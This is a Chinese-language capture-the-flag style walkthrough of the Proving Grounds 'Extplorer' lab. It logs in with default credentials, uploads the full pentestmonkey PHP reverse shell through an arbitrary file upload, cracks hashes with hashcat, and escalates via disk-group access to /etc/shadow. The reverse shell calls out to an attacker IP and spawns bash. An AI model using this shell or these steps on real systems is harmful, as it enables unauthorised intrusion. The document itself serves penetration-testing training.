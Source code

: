 ```yaml
---
title: Proving Grounds Practice-Extplorer
date: 2025-6-10 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250610113426176](./Extplorer/image-20250610113426176.png)

## 80端口

![image-20250611145028866](./Extplorer/image-20250611145028866.png)

扫到个filemanager目录，是一个登录页面，在网上可以查到默认密码为`admin:admin`，使用默认账号密码可以登录

![image-20250611145157485](./Extplorer/image-20250611145157485.png)

![image-20250611145935379](./Extplorer/image-20250611145935379.png)

changelog中保存的是更新日志，当前版本应该是2.1.15

![image-20250611152652902](./Extplorer/image-20250611152652902.png)

并且通过下面的xml文件中也可以看到版本是2.1.15

![image-20250611155039499](./Extplorer/image-20250611155039499.png)

该版本存在任意文件上传漏洞

![image-20250611155116863](./Extplorer/image-20250611155116863.png)

# 任意文件上传-getshell

可以上传一个php后门，然后访问后门页面，就可以成功反弹shell

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.198';
$port = 80;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

上传过程中没有什么限制，不需要抓包改请求包等等，直接上传即可

![image-20250611161112402](./Extplorer/image-20250611161112402.png)

home下还有个用户dora，该用户有local.txt，所以要尝试先切换到该用户

在config目录下找到该用户的密码，识别之后是`bcrypt`加密

![image-20250611163651894](./Extplorer/image-20250611163651894.png)

![image-20250611163656327](./Extplorer/image-20250611163656327.png)

hashcat -m 指定加密类型后可以成功破解

```
dora:doraemon
```

![image-20250611165137299](./Extplorer/image-20250611165137299.png)

![image-20250611165412602](./Extplorer/image-20250611165412602.png)

# 提权

切换到dora用户之后，该用户属于磁盘组

![image-20250611165456428](./Extplorer/image-20250611165456428.png)

[磁盘组权限提升 | VK9 Security --- Disk group privilege escalation | VK9 Security](./https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----9aaa071b5989---------------------------------------)

可以借助这篇文章来进行权限提升，可以读取到proof.txt

![image-20250611171826615](./Extplorer/image-20250611171826615.png)

也可以读取`/etc/shadow`,然后破解`root`用户的密码

![image-20250611172357454](./Extplorer/image-20250611172357454.png)

![image-20250611172350957](./Extplorer/image-20250611172350957.png)

```
root:explorer
```

![image-20250611172418762](./Extplorer/image-20250611172418762.png)